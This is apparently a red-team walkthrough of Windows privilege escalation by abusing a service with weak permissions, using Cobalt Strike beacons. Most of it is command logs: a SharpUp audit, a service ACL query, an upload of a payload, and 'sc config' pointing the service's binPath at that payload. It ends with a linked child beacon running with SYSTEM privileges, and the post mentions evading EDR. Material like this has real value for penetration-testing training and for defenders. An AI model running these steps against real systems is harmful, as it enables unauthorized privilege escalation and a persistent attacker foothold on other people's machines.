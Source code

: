 This scenario is based upon an assumed compromise with lower privileges and after doing some endpoint recon we find a service that allows us to configure an exe of our choosing.  It's a common technique to look for vulnerable or misconfigured services as they tend to run with higher privileges.  Assuming you get passed EDR with the assumed compromised some of these techniques can be noisy but are TTPs threat actors employ. I'm using Cobalt as my C2 of choice but these techniques can be leveraged with plenty of other popular C2 frameworks.


We'll need two listeners for this scenario (http & tcp).  The http listener is tied to the initial compromise and we'll use the beacon_bind_tcp as the second listener which will aid in elevating our privileges.  Below are my settings for both http and tcp listeners with cobalt.

![](/assets/http.png "http")

![](/assets/tcp-local.png "tcp-local")

Once on the compromised endpoint we can run a tool such as SharpUp to determine any priv esc opportunities.

```bash
[03/02 00:47:24] beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit
[03/02 00:47:25] [*] Tasked beacon to run .NET program: SharpUp.exe audit
[03/02 00:47:25] [+] host called home, sent: 149254 bytes
[03/02 00:47:26] [+] received output:

=== Modifiable Service Binaries ===
	Service 'VulnService1' (State: Running, StartMode: Auto) : C:\Program Files\Vulnerable Services\Service.exe
```

So SharpUp identified a service where we can modify the service binary but doesn't show exactly what the permissions are so we need to dig a little deeper.  We can leverage a powershell script to see what service rights we have.

```bash
[03/02 01:21:24] beacon> powershell-import C:\Tools\Get-ServiceAcl.ps1
[03/02 01:21:24] [*] Tasked beacon to import: C:\Tools\Get-ServiceAcl.ps1
[03/02 01:21:24] [+] host called home, sent: 2156 bytes
[03/02 01:21:46] beacon> powershell Get-ServiceAcl -Name VulnService | select -expand Access
[03/02 01:21:46] [*] Tasked beacon to run: Get-ServiceAcl -Name VulnService2 | select -expand Access
[03/02 01:21:46] [+] host called home, sent: 425 bytes
[03/02 01:21:50] [+] received output:

ServiceRights     : ChangeConfig, Start, Stop
AccessControlType : AccessAllowed
IdentityReference : NT AUTHORITY\Authenticated Users
```

We can see that all Authenticated Users have ChangeConfig, Start and Stop privileges over this service. We can abuse these weak permissions by changing the binary path of the service.  So instead of it running C:\Program Files\Vulnerable Services\Service.exe we can have it run something like C:\Temp\payload.exe.  If you haven't already go into Cobalt and create the tcp payload that leverages the tcp listener.  Next we'll configure the service to use our payload versus the service executable of the original service.

```bash
beacon> upload C:\Payloads\tcp-local.exe
beacon> run sc config VulnService binPath= C:\Temp\tcp-localexe
beacon> run sc qc VulnService
```

You may need to stop and start the service so keep that in mind.  Once the service is up and running with payload we pointed it too we can then connect to our localhost to hopefully have a beacon with elevated privileges.

```bash
[03/02 01:36:36] beacon> connect localhost 4444
[03/02 01:36:36] [*] Tasked to connect to localhost:4444
[03/02 01:36:36] [+] host called home, sent: 20 bytes
[03/02 01:36:36] [+] established link to child beacon: 10.10.123.102
```

![](/assets/system-privs.png "system-privs")

We can see from the screenshot that we were successful in obtaining a call back with system privileges.
